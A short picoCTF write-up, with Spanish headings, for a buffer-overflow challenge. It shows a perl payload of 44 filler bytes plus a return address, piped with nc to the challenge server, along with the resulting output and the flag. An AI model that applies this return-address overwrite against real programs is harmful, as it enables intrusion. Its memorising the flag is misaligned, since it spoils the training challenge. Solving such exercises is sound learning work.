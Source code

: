 
## Descripcion

Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 49705`



## Solucion
``` bash 

┌──(kali㉿kali)-[~/…/notas-hacking/Utils/Actividad17/01]
└─$ (perl -e 'print "A"x44 . "\xf6\x91\x04\x08";';echo) | nc saturn.picoctf.net 59987
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}  
```

## Bandera
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}

## Notas adicionales
 - Utilizando esta froma  `\xf6\x91\x04\x08`  sacade el prgrama podemos insertar un numero mayor a 44 de caracteres que nos permite romper el algoritmo del codigo y solo restaria probarlo directamenne con el servidor 

## Referencias